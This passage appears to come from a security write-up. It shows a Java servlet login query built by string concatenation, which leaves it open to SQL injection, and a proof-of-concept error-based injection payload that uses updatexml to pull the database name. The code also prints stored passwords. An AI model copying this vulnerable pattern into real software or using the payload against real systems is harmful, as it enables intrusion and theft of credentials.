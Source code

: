```java

        Connection connection = null;
        PreparedStatement preparedStatement = null;
        ResultSet resultSet = null;
        try {
            connection = JdbcUtils.getConnection();
            String sql = "select * from users where name='" + username + "' and password = '" + password + "' ";
            preparedStatement = connection.prepareStatement(sql);
            preparedStatement.setString(1,username);
            preparedStatement.setString(2,password);

           resultSet = preparedStatement.executeQuery();
           while(resultSet.next()){
               System.out.println(resultSet.getString("name")+"："+resultSet.getString("password"));
               System.out.println("==============");
           }
        } catch (Exception throwables) {
            throwables.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        doGet(req, resp);
    }
}
```

poc

```
username=lehend' AND updatexml(1, CONCAT('^',(SELECT DATABASE()),'~'),3) OR '1=1
&password=123
```

![image-20210719211400868](./image/image-20210719211400868.png)
